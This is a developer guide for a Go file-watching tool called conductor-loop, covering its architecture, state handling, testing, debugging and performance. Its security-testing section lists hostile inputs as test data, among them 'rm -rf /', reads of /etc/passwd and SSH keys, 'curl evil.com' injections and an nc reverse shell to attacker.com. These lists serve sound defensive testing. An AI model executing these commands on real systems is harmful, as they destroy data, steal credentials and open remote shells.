



# Conductor Loop - Developer Guide

This guide provides detailed technical information for developers working on the conductor-loop component.

## Table of Contents

- [Architecture Deep Dive](#architecture-deep-dive)
- [Component Interactions](#component-interactions)
- [State Management](#state-management)
- [Adding New Processors](#adding-new-processors)
- [Testing Strategies](#testing-strategies)
- [Debugging Guide](#debugging-guide)
- [Performance Optimization](#performance-optimization)
- [Contributing Guidelines](#contributing-guidelines)

## Architecture Deep Dive

### Core Components



### Package Structure

```
internal/
├── loop/
│   ├── watcher.go          # Main orchestration logic
│   ├── state.go            # File processing state management
│   ├── manager.go          # File organization and movement
│   ├── filter.go           # Intent file pattern matching
│   └── *_test.go          # Unit tests
├── porch/
│   ├── executor.go         # Porch CLI execution
│   ├── writer.go           # Output file handling
│   └── *_test.go          # Unit tests
cmd/
└── conductor-loop/
    ├── main.go             # Application entry point
    ├── main_test.go        # Integration tests
    └── Dockerfile          # Container definition
```

### Data Flow Architecture



## Component Interactions

### Watcher (Main Orchestrator)

**Location**: `internal/loop/watcher.go`

**Responsibilities**:
- File system event monitoring using fsnotify
- Event debouncing to prevent duplicate processing
- Worker pool management
- Graceful shutdown coordination
- Configuration management

**Key Methods**:
```go
func NewWatcher(dir string, config Config) (*Watcher, error)
func (w *Watcher) Start() error
func (w *Watcher) Close() error
func (w *Watcher) handleIntentFileWithDebounce(filePath string)
func (w *Watcher) processIntentFile(workerID int, filePath string)
```

**Configuration Options**:
```go
type Config struct {
    PorchPath    string        // Path to porch executable
    Mode         string        // "direct" or "structured"
    OutDir       string        // Output directory for processed files
    Once         bool          // Process once and exit
    DebounceDur  time.Duration // Debounce duration for file events
    MaxWorkers   int           // Number of concurrent workers
    CleanupAfter time.Duration // Age threshold for cleanup
}
```

### State Manager

**Location**: `internal/loop/state.go`

**Purpose**: Tracks file processing state to prevent reprocessing unchanged files using SHA256 checksums.

**State Structure**:
```go
type FileState struct {
    FilePath    string    `json:"file_path"`
    SHA256      string    `json:"sha256"`
    Size        int64     `json:"size"`
    ProcessedAt time.Time `json:"processed_at"`
    Status      string    `json:"status"` // "processed" or "failed"
}
```

**Key Features**:
- **Atomic State Updates**: Uses temporary files for atomic writes
- **Content-Based Tracking**: SHA256 checksums detect file changes
- **Corruption Recovery**: Backs up corrupted state files automatically
- **Periodic Cleanup**: Removes old state entries based on age

**Implementation Details**:
```go
// State persistence format
type StateData struct {
    Version   string                `json:"version"`
    SavedAt   time.Time             `json:"saved_at"`
    States    map[string]*FileState `json:"states"`
}

// Thread-safe operations
func (sm *StateManager) IsProcessed(filePath string) (bool, error)
func (sm *StateManager) MarkProcessed(filePath string) error
func (sm *StateManager) MarkFailed(filePath string) error
```

### File Manager

**Location**: `internal/loop/manager.go`

**Purpose**: Organizes processed and failed files with atomic file operations.

**Directory Structure**:
```
handoff/
├── intent-*.json           # Input files
├── processed/              # Successfully processed files
├── failed/                 # Failed processing attempts
│   └── *.error.log        # Detailed error logs
└── .conductor-state.json   # State tracking file
```

**Atomic File Operations**:
```go
func (fm *FileManager) MoveToProcessed(filePath string) error
func (fm *FileManager) MoveToFailed(filePath string, errorMsg string) error
func (fm *FileManager) atomicMove(src, dst string) error
```

**Error Handling**:
- Cross-filesystem moves (copy + delete fallback)
- Filename conflict resolution with timestamps
- Detailed error logging with context

### Porch Executor

**Location**: `internal/porch/executor.go`

**Purpose**: Manages porch CLI command execution with timeout handling and statistics tracking.

**Execution Modes**:
```go
// Direct mode
porch -intent /path/to/intent.json -out /output/dir

// Structured mode  
porch -intent /path/to/intent.json -out /output/dir -structured
```

**Statistics Tracking**:
```go
type ExecutorStats struct {
    TotalExecutions   int           `json:"total_executions"`
    SuccessfulExecs   int           `json:"successful_executions"`
    FailedExecs       int           `json:"failed_executions"`
    AverageExecTime   time.Duration `json:"average_execution_time"`
    TotalExecTime     time.Duration `json:"total_execution_time"`
    TimeoutCount      int           `json:"timeout_count"`
}
```

## State Management

### State File Format

The state manager uses JSON persistence with versioning:

```json
{
  "version": "1.0",
  "saved_at": "2024-08-15T10:30:00Z",
  "states": {
    "/absolute/path/to/intent-file.json": {
      "file_path": "/absolute/path/to/intent-file.json",
      "sha256": "abc123...",
      "size": 1024,
      "processed_at": "2024-08-15T10:25:00Z",
      "status": "processed"
    }
  }
}
```

### State Transitions



### State Key Generation

State keys are generated from absolute file paths:
```go
func createStateKey(absPath string) string {
    return filepath.Clean(absPath)
}
```

This ensures consistency across platforms and prevents duplicate state entries.

### Corruption Recovery

The state manager handles corrupted state files gracefully:

1. **Detection**: JSON unmarshaling fails
2. **Backup**: Copy corrupted file with timestamp
3. **Reset**: Start with empty state
4. **Logging**: Log backup location for manual recovery

## Adding New Processors

### Custom Executor Interface

To add support for new command-line tools beyond Porch:

```go
type CommandExecutor interface {
    Execute(ctx context.Context, intentPath string) (*ExecutionResult, error)
    Validate() error
    GetStats() ExecutorStats
}
```

### Example: Adding Helm Executor

1. **Create New Executor**:
```go
// internal/helm/executor.go
type HelmExecutor struct {
    config HelmConfig
    stats  ExecutorStats
}

func (he *HelmExecutor) Execute(ctx context.Context, intentPath string) (*ExecutionResult, error) {
    // Parse intent file
    intent, err := parseHelmIntent(intentPath)
    if err != nil {
        return nil, err
    }
    
    // Build helm command
    cmd := []string{"helm", "install", intent.ReleaseName, intent.ChartPath}
    
    // Execute with timeout
    return he.executeCommand(ctx, cmd)
}
```

2. **Register in Watcher**:
```go
// internal/loop/watcher.go
func NewWatcher(dir string, config Config) (*Watcher, error) {
    var executor CommandExecutor
    
    switch config.ExecutorType {
    case "porch":
        executor = porch.NewStatefulExecutor(porchConfig)
    case "helm":
        executor = helm.NewHelmExecutor(helmConfig)
    default:
        return nil, fmt.Errorf("unknown executor type: %s", config.ExecutorType)
    }
    
    // ... rest of initialization
}
```

### Custom File Filters

To support different file patterns beyond `intent-*.json`:

```go
// internal/loop/filter.go
type FileFilter interface {
    IsIntentFile(filename string) bool
    GetFileType(filename string) string
}

type PatternFilter struct {
    patterns map[string]*regexp.Regexp
}

func (pf *PatternFilter) IsIntentFile(filename string) bool {
    for _, pattern := range pf.patterns {
        if pattern.MatchString(filename) {
            return true
        }
    }
    return false
}
```

### Custom Status Writers

To generate different status file formats:

```go
// internal/loop/status.go
type StatusWriter interface {
    WriteStatus(intentFile string, result *ExecutionResult) error
}

type JSONStatusWriter struct {
    statusDir string
}

type XMLStatusWriter struct {
    statusDir string
}

type PrometheusStatusWriter struct {
    metricsRegistry *prometheus.Registry
}
```

## Testing Strategies

### Unit Testing

**Test File Locations**:
- `internal/loop/*_test.go`
- `internal/porch/*_test.go`
- `cmd/conductor-loop/main_test.go`

**Test Coverage Areas**:

1. **File System Operations**:
```go
func TestFileManager_MoveToProcessed(t *testing.T) {
    tempDir := t.TempDir()
    fm, err := NewFileManager(tempDir)
    require.NoError(t, err)
    
    // Create test file
    testFile := filepath.Join(tempDir, "intent-test.json")
    err = os.WriteFile(testFile, []byte(`{"test": true}`), 0644)
    require.NoError(t, err)
    
    // Test move operation
    err = fm.MoveToProcessed(testFile)
    require.NoError(t, err)
    
    // Verify file was moved
    processedFile := filepath.Join(tempDir, "processed", "intent-test.json")
    assert.FileExists(t, processedFile)
    assert.NoFileExists(t, testFile)
}
```

2. **State Management**:
```go
func TestStateManager_ProcessingState(t *testing.T) {
    tempDir := t.TempDir()
    sm, err := NewStateManager(tempDir)
    require.NoError(t, err)
    defer sm.Close()
    
    testFile := filepath.Join(tempDir, "intent-test.json")
    err = os.WriteFile(testFile, []byte(`{"test": true}`), 0644)
    require.NoError(t, err)
    
    // Initially not processed
    processed, err := sm.IsProcessed(testFile)
    require.NoError(t, err)
    assert.False(t, processed)
    
    // Mark as processed
    err = sm.MarkProcessed(testFile)
    require.NoError(t, err)
    
    // Should now be processed
    processed, err = sm.IsProcessed(testFile)
    require.NoError(t, err)
    assert.True(t, processed)
}
```

3. **Porch Execution**:
```go
func TestPorchExecutor_MockExecution(t *testing.T) {
    // Use mock porch executable for testing
    mockPorch := createMockPorchScript(t, 0, "success output", "")
    
    executor := NewExecutor(ExecutorConfig{
        PorchPath: mockPorch,
        Mode:     ModeDirect,
        OutDir:   t.TempDir(),
        Timeout:  5 * time.Second,
    })
    
    result, err := executor.Execute(context.Background(), "test-intent.json")
    require.NoError(t, err)
    assert.True(t, result.Success)
    assert.Equal(t, "success output", result.Stdout)
}
```

### Integration Testing

**Test Scenarios**:

1. **End-to-End File Processing**:
```go
func TestWatcher_EndToEndProcessing(t *testing.T) {
    // Setup test environment
    testDir := t.TempDir()
    handoffDir := filepath.Join(testDir, "handoff")
    outDir := filepath.Join(testDir, "out")
    
    // Create mock porch
    mockPorch := createMockPorchScript(t, 0, "success", "")
    
    // Create watcher
    watcher, err := NewWatcher(handoffDir, Config{
        PorchPath:   mockPorch,
        Mode:       ModeDirect,
        OutDir:     outDir,
        Once:       true,
        MaxWorkers: 1,
    })
    require.NoError(t, err)
    defer watcher.Close()
    
    // Create test intent file
    intentFile := filepath.Join(handoffDir, "intent-test.json")
    intent := map[string]interface{}{
        "intent_type": "scaling",
        "target":      "test-target",
        "namespace":   "test-ns",
        "replicas":    3,
    }
    writeJSONFile(t, intentFile, intent)
    
    // Process files
    err = watcher.Start()
    require.NoError(t, err)
    
    // Verify processing
    processedFile := filepath.Join(handoffDir, "processed", "intent-test.json")
    assert.FileExists(t, processedFile)
    
    statusFile := filepath.Join(handoffDir, "status", "intent-test.json.status")
    assert.FileExists(t, statusFile)
}
```

2. **Concurrent Processing**:
```go
func TestWatcher_ConcurrentProcessing(t *testing.T) {
    // Test multiple files processed concurrently
    const numFiles = 10
    
    // Create multiple intent files
    for i := 0; i < numFiles; i++ {
        intentFile := filepath.Join(handoffDir, fmt.Sprintf("intent-%d.json", i))
        writeJSONFile(t, intentFile, createTestIntent(i))
    }
    
    // Process with multiple workers
    watcher, err := NewWatcher(handoffDir, Config{
        MaxWorkers: 3,
        Once:      true,
    })
    
    // Verify all files processed
    processedFiles, err := filepath.Glob(filepath.Join(handoffDir, "processed", "*.json"))
    require.NoError(t, err)
    assert.Len(t, processedFiles, numFiles)
}
```

### Performance Testing

**Benchmarking File Processing**:
```go
func BenchmarkWatcher_FileProcessing(b *testing.B) {
    // Setup
    testDir := b.TempDir()
    mockPorch := createFastMockPorch(b)
    
    watcher, err := NewWatcher(testDir, Config{
        PorchPath:  mockPorch,
        MaxWorkers: runtime.NumCPU(),
    })
    require.NoError(b, err)
    defer watcher.Close()
    
    b.ResetTimer()
    
    for i := 0; i < b.N; i++ {
        intentFile := filepath.Join(testDir, fmt.Sprintf("intent-%d.json", i))
        writeTestIntent(b, intentFile)
        
        // Measure processing time
        start := time.Now()
        watcher.processIntentFile(0, intentFile)
        elapsed := time.Since(start)
        
        b.ReportMetric(float64(elapsed.Nanoseconds()), "ns/op")
    }
}
```

### Test Utilities

**Common Test Helpers**:
```go
// testing/helpers.go
func createMockPorchScript(t *testing.T, exitCode int, stdout, stderr string) string {
    script := fmt.Sprintf(`#!/bin/bash
echo "%s"
echo "%s" >&2
exit %d`, stdout, stderr, exitCode)
    
    scriptPath := filepath.Join(t.TempDir(), "mock-porch")
    err := os.WriteFile(scriptPath, []byte(script), 0755)
    require.NoError(t, err)
    
    return scriptPath
}

func writeJSONFile(t *testing.T, path string, data interface{}) {
    jsonData, err := json.MarshalIndent(data, "", "  ")
    require.NoError(t, err)
    
    err = os.MkdirAll(filepath.Dir(path), 0755)
    require.NoError(t, err)
    
    err = os.WriteFile(path, jsonData, 0644)
    require.NoError(t, err)
}

func createTestIntent(id int) map[string]interface{} {
    return map[string]interface{}{
        "intent_type":    "scaling",
        "target":         fmt.Sprintf("test-target-%d", id),
        "namespace":      "test-ns",
        "replicas":       3,
        "correlation_id": fmt.Sprintf("test-%d", id),
    }
}
```

## Debugging Guide

### Logging Configuration

**Enable Debug Logging**:
```bash
# Environment variable
export CONDUCTOR_LOG_LEVEL=debug
./conductor-loop

# Or modify log level in main.go
log.SetPrefix("[conductor-loop] ")
log.SetFlags(log.Ldate | log.Ltime | log.Lmicroseconds | log.Lshortfile)
```

**Structured Logging Example**:
```go
// Add structured logging
import "github.com/sirupsen/logrus"

func (w *Watcher) processIntentFile(workerID int, filePath string) {
    logger := logrus.WithFields(logrus.Fields{
        "worker_id": workerID,
        "file_path": filePath,
        "component": "watcher",
    })
    
    logger.Info("Starting file processing")
    
    // ... processing logic
    
    logger.WithFields(logrus.Fields{
        "duration": duration,
        "success":  result.Success,
    }).Info("Completed file processing")
}
```

### Common Debugging Scenarios

#### 1. Files Not Being Processed

**Symptoms**:
- Intent files remain in handoff directory
- No log messages about processing

**Debugging Steps**:
```bash
# Check file permissions
ls -la handoff/intent-*.json

# Verify file pattern matching
./conductor-loop -debug 2>&1 | grep "file pattern"

# Check fsnotify events
strace -e trace=inotify_add_watch,inotify_rm_watch ./conductor-loop
```

**Code Debug Points**:
```go
// Add debug logging in watcher.go
func (w *Watcher) handleIntentFileWithDebounce(filePath string) {
    log.Printf("DEBUG: Handling file event for: %s", filePath)
    
    if !IsIntentFile(filepath.Base(filePath)) {
        log.Printf("DEBUG: Skipping non-intent file: %s", filePath)
        return
    }
    
    log.Printf("DEBUG: Queuing intent file for processing: %s", filePath)
    // ... rest of method
}
```

#### 2. Porch Execution Failures

**Symptoms**:
- Files moved to failed directory
- Error logs show porch command issues

**Debugging Steps**:
```bash
# Test porch manually
porch -intent handoff/intent-test.json -out ./test-output

# Check porch path
which porch
echo $PATH

# Verify intent file format
cat handoff/intent-test.json | jq .
```

**Enhanced Error Reporting**:
```go
// In porch/executor.go
func (e *Executor) Execute(ctx context.Context, intentPath string) (*ExecutionResult, error) {
    // Add detailed command logging
    log.Printf("DEBUG: Executing command: %s", strings.Join(cmd, " "))
    log.Printf("DEBUG: Working directory: %s", execCmd.Dir)
    log.Printf("DEBUG: Environment: %v", execCmd.Env)
    
    // ... execution logic
    
    if err != nil {
        log.Printf("DEBUG: Command failed with error: %v", err)
        log.Printf("DEBUG: Exit code: %d", getExitCode(execCmd, err))
        log.Printf("DEBUG: Stderr: %s", stderr.String())
    }
    
    return result, nil
}
```

#### 3. State Management Issues

**Symptoms**:
- Files reprocessed repeatedly
- State file corruption warnings

**Debugging Steps**:
```bash
# Examine state file
cat handoff/.conductor-state.json | jq .

# Check file checksums
sha256sum handoff/intent-*.json

# Monitor state file changes
watch -n 1 'cat handoff/.conductor-state.json | jq ".states | length"'
```

**State Debugging Code**:
```go
// In loop/state.go
func (sm *StateManager) IsProcessed(filePath string) (bool, error) {
    hash, size, err := calculateFileHash(filePath)
    if err != nil {
        return false, fmt.Errorf("failed to calculate file hash: %w", err)
    }
    
    log.Printf("DEBUG: File hash for %s: %s (size: %d)", filePath, hash, size)
    
    key := createStateKey(absPath)
    state, exists := sm.states[key]
    
    log.Printf("DEBUG: State exists for key %s: %t", key, exists)
    
    if exists {
        log.Printf("DEBUG: Stored hash: %s, current hash: %s", state.SHA256, hash)
        log.Printf("DEBUG: Stored size: %d, current size: %d", state.Size, size)
    }
    
    // ... rest of method
}
```

#### 4. Memory Leaks

**Symptoms**:
- Increasing memory usage over time
- System performance degradation

**Debugging Tools**:
```bash
# Memory profiling with pprof
go build -gcflags="-N -l" ./cmd/conductor-loop
./conductor-loop &
curl http://localhost:6060/debug/pprof/heap > heap.prof
go tool pprof heap.prof

# Monitor memory usage
while true; do
    ps aux | grep conductor-loop | grep -v grep
    sleep 5
done
```

**Memory Leak Detection**:
```go
// Add memory monitoring
import "runtime"

func (w *Watcher) cleanupRoutine() {
    ticker := time.NewTicker(24 * time.Hour)
    memTicker := time.NewTicker(1 * time.Minute)
    defer ticker.Stop()
    defer memTicker.Stop()
    
    for {
        select {
        case <-memTicker.C:
            var m runtime.MemStats
            runtime.ReadMemStats(&m)
            log.Printf("Memory stats: Alloc=%d KB, TotalAlloc=%d KB, Sys=%d KB, NumGC=%d",
                m.Alloc/1024, m.TotalAlloc/1024, m.Sys/1024, m.NumGC)
                
        case <-ticker.C:
            // Regular cleanup
            runtime.GC() // Force garbage collection
        }
    }
}
```

### Debugging Tools

#### 1. File System Monitoring
```bash
# Linux: Monitor file system events
inotifywait -m -r handoff/ -e create,modify,move,delete

# macOS: Use fswatch
fswatch -o handoff/

# Windows: Use PowerShell
Get-WinEvent -FilterHashtable @{LogName='System'; ID=4663} | Where-Object {$_.Message -like "*handoff*"}
```

#### 2. Process Monitoring
```bash
# Monitor system calls
strace -p $(pgrep conductor-loop) -e trace=file

# Monitor network activity (if any)
netstat -p | grep conductor-loop

# Monitor resource usage
top -p $(pgrep conductor-loop)
```

#### 3. Log Analysis
```bash
# Parse structured logs
tail -f conductor-loop.log | jq 'select(.level == "error")'

# Monitor processing statistics
grep "Worker.*processing" conductor-loop.log | awk '{print $1, $2, $4, $6}'

# Check for patterns
grep -E "(timeout|error|fail)" conductor-loop.log | sort | uniq -c
```

## Performance Optimization

### Bottleneck Analysis

**Common Performance Bottlenecks**:

1. **File System I/O**:
   - Large intent files
   - Slow network-mounted storage
   - High file system fragmentation

2. **Porch Execution Time**:
   - Complex package generation
   - Network delays in package publishing
   - Resource constraints (CPU/memory)

3. **State Management**:
   - Large state files (many tracked files)
   - Frequent state persistence
   - Slow JSON serialization

### Optimization Strategies

#### 1. File System Optimizations

**Use SSD Storage**:
```bash
# Check storage type
lsblk -d -o name,rota

# Mount with optimized options for SSDs
mount -o noatime,nodiratime /dev/ssd1 /handoff
```

**Optimize Directory Structure**:
```go
// Implement directory sharding for large file counts
func (fm *FileManager) getShardedPath(filename string) string {
    hash := sha256.Sum256([]byte(filename))
    shard := fmt.Sprintf("%02x", hash[0])
    return filepath.Join(fm.processedDir, shard, filename)
}
```

#### 2. Concurrency Optimizations

**Dynamic Worker Scaling**:
```go
type AdaptiveWatcher struct {
    *Watcher
    minWorkers    int
    maxWorkers    int
    currentWorkers int
    queueSize     int
    mu            sync.Mutex
}

func (aw *AdaptiveWatcher) adjustWorkerCount() {
    aw.mu.Lock()
    defer aw.mu.Unlock()
    
    queueLength := len(aw.workQueue)
    targetWorkers := aw.minWorkers
    
    if queueLength > 10 {
        targetWorkers = min(aw.maxWorkers, queueLength/5)
    }
    
    if targetWorkers > aw.currentWorkers {
        aw.scaleUp(targetWorkers - aw.currentWorkers)
    } else if targetWorkers < aw.currentWorkers {
        aw.scaleDown(aw.currentWorkers - targetWorkers)
    }
}
```

**Batched Processing**:
```go
type BatchProcessor struct {
    batchSize     int
    batchTimeout  time.Duration
    pendingFiles  []string
    processingMu  sync.Mutex
}

func (bp *BatchProcessor) processBatch(files []string) error {
    // Process multiple files in a single porch command
    args := []string{bp.porchPath, "-batch"}
    for _, file := range files {
        args = append(args, "-intent", file)
    }
    
    return bp.executeBatchCommand(args)
}
```

#### 3. Memory Optimizations

**Streaming JSON Processing**:
```go
// Instead of loading entire state into memory
func (sm *StateManager) loadStateStreaming() error {
    file, err := os.Open(sm.stateFile)
    if err != nil {
        return err
    }
    defer file.Close()
    
    decoder := json.NewDecoder(file)
    
    // Read token by token
    for decoder.More() {
        var state FileState
        if err := decoder.Decode(&state); err != nil {
            return err
        }
        sm.states[createStateKey(state.FilePath)] = &state
    }
    
    return nil
}
```

**Memory Pool for File Operations**:
```go
var bufferPool = sync.Pool{
    New: func() interface{} {
        return make([]byte, 64*1024) // 64KB buffers
    },
}

func (fm *FileManager) copyFileOptimized(src, dst string) error {
    srcFile, err := os.Open(src)
    if err != nil {
        return err
    }
    defer srcFile.Close()
    
    dstFile, err := os.Create(dst)
    if err != nil {
        return err
    }
    defer dstFile.Close()
    
    buffer := bufferPool.Get().([]byte)
    defer bufferPool.Put(buffer)
    
    _, err = io.CopyBuffer(dstFile, srcFile, buffer)
    return err
}
```

#### 4. Caching Strategies

**Porch Result Caching**:
```go
type CachedExecutor struct {
    *Executor
    cache map[string]*ExecutionResult
    cacheMu sync.RWMutex
    cacheTTL time.Duration
}

func (ce *CachedExecutor) Execute(ctx context.Context, intentPath string) (*ExecutionResult, error) {
    // Check cache first
    hash, _, err := calculateFileHash(intentPath)
    if err != nil {
        return nil, err
    }
    
    ce.cacheMu.RLock()
    if cached, exists := ce.cache[hash]; exists {
        if time.Since(cached.CachedAt) < ce.cacheTTL {
            ce.cacheMu.RUnlock()
            return cached, nil
        }
    }
    ce.cacheMu.RUnlock()
    
    // Execute and cache result
    result, err := ce.Executor.Execute(ctx, intentPath)
    if err == nil && result.Success {
        ce.cacheMu.Lock()
        ce.cache[hash] = result
        ce.cacheMu.Unlock()
    }
    
    return result, err
}
```

### Performance Monitoring

**Metrics Collection**:
```go
type PerformanceMetrics struct {
    FileProcessingDuration prometheus.Histogram
    QueueSize             prometheus.Gauge
    ActiveWorkers         prometheus.Gauge
    CacheHitRatio         prometheus.Gauge
}

func (w *Watcher) recordProcessingMetrics(duration time.Duration, success bool) {
    w.metrics.FileProcessingDuration.Observe(duration.Seconds())
    
    if success {
        w.metrics.SuccessfulProcessing.Inc()
    } else {
        w.metrics.FailedProcessing.Inc()
    }
}
```

**Performance Profiling Integration**:
```go
import _ "net/http/pprof"

func main() {
    // Enable pprof endpoint
    go func() {
        log.Println(http.ListenAndServe("localhost:6060", nil))
    }()
    
    // ... rest of application
}
```

## Contributing Guidelines

### Development Setup

**Prerequisites**:
- Go 1.24+
- Git
- Docker (for container testing)
- Make (for build automation)

**Setup Steps**:
```bash
# Clone repository
git clone https://github.com/thc1006/nephoran-intent-operator.git
cd nephoran-intent-operator

# Setup development branch
git checkout -b feat/conductor-loop-enhancement

# Install development dependencies
go mod download
go install github.com/golangci/golangci-lint/cmd/golangci-lint@latest

# Run tests
make test-conductor-loop
```

### Code Standards

**Go Code Style**:
- Follow [Effective Go](https://golang.org/doc/effective_go.html) guidelines
- Use `gofmt` for formatting
- Pass `golangci-lint` checks
- Include comprehensive error handling

**Documentation Requirements**:
- All public functions must have GoDoc comments
- Include usage examples for complex functions
- Document performance characteristics for critical paths

**Example Function Documentation**:
```go
// ProcessIntentFile processes a single intent file through the porch executor.
// It handles state checking, execution, and file organization atomically.
//
// The function is thread-safe and can be called concurrently by multiple workers.
// Processing time typically ranges from 100ms to 5s depending on intent complexity.
//
// Parameters:
//   - workerID: Unique identifier for the processing worker (used for logging)
//   - filePath: Absolute path to the intent file to process
//
// Returns:
//   - No return value; results are communicated through file system operations
//     and internal state updates
//
// Side Effects:
//   - Modifies file system (moves files, creates status files)
//   - Updates internal processing state
//   - Logs processing events
//
// Example:
//   watcher.processIntentFile(1, "/data/handoff/intent-scale-up.json")
func (w *Watcher) processIntentFile(workerID int, filePath string) {
    // Implementation...
}
```

### Security Testing Requirements

#### Security Test Coverage

**Minimum Security Test Coverage**: 95% for security-critical paths

**Required Security Test Types**:
1. **Input Validation Tests**: All input parsing and validation functions
2. **Command Injection Tests**: All external command execution paths
3. **Path Traversal Tests**: All file system operations
4. **Resource Exhaustion Tests**: All resource-intensive operations
5. **Authentication/Authorization Tests**: All access control mechanisms
6. **Cryptographic Tests**: All encryption and hashing operations

#### Security Testing Framework

**Security Test Categories**:
```go
// Security test categories for comprehensive coverage
const (
    SecurityTestInput        = "input_validation"
    SecurityTestCommand      = "command_injection"
    SecurityTestPath         = "path_traversal"
    SecurityTestResource     = "resource_exhaustion"
    SecurityTestAuth         = "authentication"
    SecurityTestCrypto       = "cryptography"
    SecurityTestConcurrency  = "concurrency_safety"
)

type SecurityTestSuite struct {
    Component   string
    Version     string
    TestResults map[string]SecurityTestResult
}
```

**Example Security Tests**:
```go
func TestSecurityPathTraversal(t *testing.T) {
    maliciousPaths := []string{
        "../../../etc/passwd",
        "..\\..\\windows\\system32\\config",
        "/etc/shadow",
        "../../../../root/.ssh/id_rsa",
        "..%2F..%2F..%2Fetc%2Fpasswd",
    }
    
    for _, path := range maliciousPaths {
        t.Run(fmt.Sprintf("path_%s", path), func(t *testing.T) {
            intent := map[string]interface{}{
                "intent_type": "scaling",
                "target":      path,
                "namespace":   "default",
                "replicas":    3,
            }
            
            result := processIntentSecurely(intent)
            
            // Should reject malicious paths
            assert.False(t, result.Success)
            assert.Contains(t, result.Error, "path validation failed")
            
            // Should not create files outside allowed directories
            assertNoPathTraversal(t, allowedBasePath)
        })
    }
}

func TestSecurityCommandInjection(t *testing.T) {
    maliciousCommands := []string{
        "porch; rm -rf /",
        "porch && cat /etc/passwd",
        "porch | curl evil.com",
        "porch; nc -e /bin/sh attacker.com 4444",
        "`curl evil.com`",
    }
    
    for _, cmd := range maliciousCommands {
        t.Run(fmt.Sprintf("command_%s", cmd), func(t *testing.T) {
            config := ExecutorConfig{
                PorchPath: cmd,
                Mode:      "direct",
                OutDir:    t.TempDir(),
                Timeout:   5 * time.Second,
            }
            
            executor := NewExecutor(config)
            
            // Should reject malicious commands
            result, err := executor.Execute(context.Background(), "test-intent.json")
            assert.False(t, result.Success)
            assert.Error(t, err)
            
            // Should not execute dangerous operations
            assertNoCommandInjection(t)
        })
    }
}
```

#### Fuzz Testing

**Security Fuzzing Strategy**:
```go
func FuzzSecurityIntentValidation(f *testing.F) {
    // Seed with known attack patterns
    attackSeeds := [][]byte{
        []byte(`{"intent_type":"scaling","target":"../../../etc/passwd","namespace":"default","replicas":3}`),
        []byte(`{"intent_type":"scaling","target":"$(curl evil.com)","namespace":"default","replicas":3}`),
        []byte(`{"intent_type":"scaling","target":"normal","namespace":"default","replicas":-1}`),
        []byte(`{"intent_type":"scaling","target":"normal","namespace":"../system","replicas":999999}`),
    }
    
    for _, seed := range attackSeeds {
        f.Add(seed)
    }
    
    f.Fuzz(func(t *testing.T, data []byte) {
        // Test should never crash, even with malicious input
        defer func() {
            if r := recover(); r != nil {
